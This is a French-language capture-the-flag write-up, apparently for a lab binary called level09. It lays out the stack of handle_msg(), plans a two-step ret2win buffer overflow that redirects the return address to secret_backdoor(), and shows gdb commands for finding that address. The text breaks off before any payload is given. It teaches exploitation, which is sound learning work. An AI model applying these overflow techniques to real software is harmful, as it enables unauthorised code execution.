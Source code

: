 **Observation :** Cette fonction n'est jamais appelée dans le programme... mais on va l'appeler nous-même ! 🎯

---

## Structure de la Stack

### Layout de `handle_msg()`

```
Offset   | Variable          | Taille
---------|-------------------|--------
0-139    | buffer[140]       | 140 octets
140-147  | padding1 (long)   | 8 octets   ← ⚠️ On écrit ICI avec set_username()
148-155  | padding2 (long)   | 8 octets
156-163  | padding3 (long)   | 8 octets
164-171  | padding4 (long)   | 8 octets
172-179  | padding5 (long)   | 8 octets
180-183  | msg_len (int)     | 4 octets   ← ⚠️ CIBLE 1 : Modifier cette valeur
184-191  | [alignement]      | 8 octets
192-199  | saved RBP         | 8 octets
200-207  | return address    | 8 octets   ← ⚠️ CIBLE 2 : Pointer vers secret_backdoor
```

---

## Exploitation

### Stratégie : Ret2win en 2 étapes

1. **Première étape :** Modifier `msg_len` via `set_username()` pour permettre un grand overflow
2. **Deuxième étape :** Overflow via `set_msg()` pour écraser la return address avec l'adresse de `secret_backdoor()`

### Étape 1 : Trouver l'adresse de `secret_backdoor`

```bash
gdb ./level09
b main
r
p secret_backdoor
```

**Exemple de résultat :**
```
$1 = {<text variable, no debug info>} 0x55555555488c <secret_backdoor>
```

**Adresse trouvée :** `0x55555555488c`

### Étape 2 : Premier payload (Username)

**Objectif :** Modifier `msg_len` pour permettre un overflow
